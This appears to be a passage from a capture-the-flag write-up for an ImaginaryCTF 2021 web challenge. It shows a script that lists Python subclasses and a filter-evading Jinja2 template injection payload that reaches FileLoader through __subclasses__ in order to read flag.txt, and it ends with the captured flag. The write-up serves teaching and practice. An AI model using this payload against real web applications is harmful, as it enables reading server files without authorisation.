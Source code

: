 ```
import re

classes = "[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, ...]"

results = re.findall(r'<class \'(\S*)\'>', classes) 
counter = 0

for cl in results:
  if 'file' in cl.lower():
    print(counter, cl)
  counter += 1 

{% endhighlight %}

I see that the number 99 (FileLoader) may fit our purpose:

```
99 _frozen_importlib_external.FileLoader
103 _frozen_importlib_external.FileFinder
250 zipfile.ZipInfo
251 zipfile.LZMACompressor
252 zipfile.LZMADecompressor
253 zipfile._SharedFile
254 zipfile._Tellable
255 zipfile.ZipFile
256 zipfile.Path
269 email.feedparser.BufferedSubFile
273 tempfile._RandomNameSequence
274 tempfile._TemporaryFileCloser
275 tempfile._TemporaryFileWrapper
276 tempfile.SpooledTemporaryFile
277 tempfile.TemporaryDirectory
308 gunicorn.pidfile.Pidfile
315 argparse.FileType
356 gunicorn.http.wsgi.FileWrapper
406 werkzeug.datastructures.FileStorage
418 werkzeug.wsgi.FileWrapper
492 click._compat._AtomicFile
493 click.utils.LazyFile
494 click.utils.KeepOpenFile
```

Now, the [documentation](https://docs.python.org/3/library/importlib.html) is checked to see how we can open and read a file:

<p align="center">
  <img src="/images/writeups/ImaginaryCTF2021/Web/6_loadfile.png" width="70%"/>
</p>

Following the documentation, we crafted the following payload:

```
{ {""["__cl" + "ass__"].__mro__[1]["__subcl" + "asses__"]()[99]("flag.txt", "flag.txt").get_data("flag.txt")} }
```

<p align="center">
  <img src="/images/writeups/ImaginaryCTF2021/Web/7_flag.png" width="70%"/>
</p>

``` ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:} ```


That's all for the little time I could spend. Thanks for reading!!